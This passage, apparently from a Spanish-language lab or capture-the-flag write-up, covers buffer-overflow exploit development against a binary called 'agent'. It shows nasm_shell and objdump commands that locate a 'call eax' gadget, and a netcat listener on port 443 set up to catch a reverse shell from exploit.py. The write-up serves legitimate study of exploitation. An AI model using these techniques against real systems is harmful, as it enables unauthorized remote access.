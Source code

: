 Acción: buscamos este valor para saber la estructura de *eax* FFD0

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > call eax
00000000  FFD0              call eax
```

Acción: 

**Nota:** para este caso trajimos al directorio actual el binario `agent` (`cp ../content/agent .`) para poder ejecutar este comando 

```bash
objdump -d agent | grep -i "FF D0"
```

Resultado: obtenemos el valor eax que podemos usar en el script ya que esta se va a mantener estática

```bash
8048563:	ff d0                	call   *%eax
```

Explicación: ejecutamos un canal de escucha con `nc -nlvp 443` y luego ejecutamos el script desde el terminal vulnerado, podemos copiarlo en la ruta `/tmp/` y ejecutarlo con `python3 exploit.py`

---
